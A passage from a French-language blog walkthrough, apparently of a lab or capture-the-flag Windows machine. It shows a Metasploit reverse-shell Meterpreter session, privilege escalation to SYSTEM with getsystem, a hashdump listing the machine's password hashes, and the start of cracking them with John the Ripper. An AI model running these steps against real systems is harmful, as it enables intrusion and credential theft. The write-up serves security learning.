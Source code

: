 On peut maintenant se connecter via *TSE* avec les même identifiants que pour le FTP (sous *openSUSE* il y a un client tout ce qu'il y a d'épuré).  

![Configuration du client RDP](https://raw.githubusercontent.com/devl00p/blog/master/images/rdp.png)

Sous *Metasploit*, on relance le handler et depuis la session *Windows* on lance *rbd.exe*.  

```plain
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 3 opened (192.168.1.3:9999 -> 192.168.1.11:1094) at 2014-03-26 19:29:40 +0100

meterpreter > getuid
Server username: BOBBY\bob
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY f7c6aa7200e401d1b8667e066d1822e0...
[*] Obtaining the user list and keys...
[*] Handle is invalid, retrying...
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY f7c6aa7200e401d1b8667e066d1822e0...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:921988ba001dc8e1e1c7c53891cb0efa:e1270db1dd8bf1e32725729695aa1feb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0d5a495be0d12c5c0001826d12a103db:e63e0754cf4f25edc0918ca39e06cb46:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:460935cc09bcbec00cc9b37788db5a54:::
bob:1003:66e5d5ae82299cb6aad3b435b51404ee:42865c72994c34e54d4c5d659fc15b10:::
IUSR_BOBBY:1004:080d6ebbb9f70bc7b9fa1681c900a5b1:2c30939c170e28b5becd8c652425ea85:::
IWAM_BOBBY:1005:519481f2f1ae0a2fa91d88c577b32453:713317229556300b105c82332af604b1:::
```

Là on est entré comme dans du beurre :)  

A partir de là on a le choix entre la méthode old-school de cassage de hash (a.k.a [classic one way ticket to Fuckneckville](https://www.youtube.com/watch?v=H7nBDONk4FA)) :  

```shellsession
$ /opt/jtr/john hash.txt                                                                                                                                                        
Warning: detected hash type "lm", but the string is also recognized as "nt2"                                                                                                                                   
Use the "--format=nt2" option to force loading these as that type instead                                                                                                                                      
Warning: detected hash type "lm", but the string is also recognized as "nt"                                                                                                                                    
```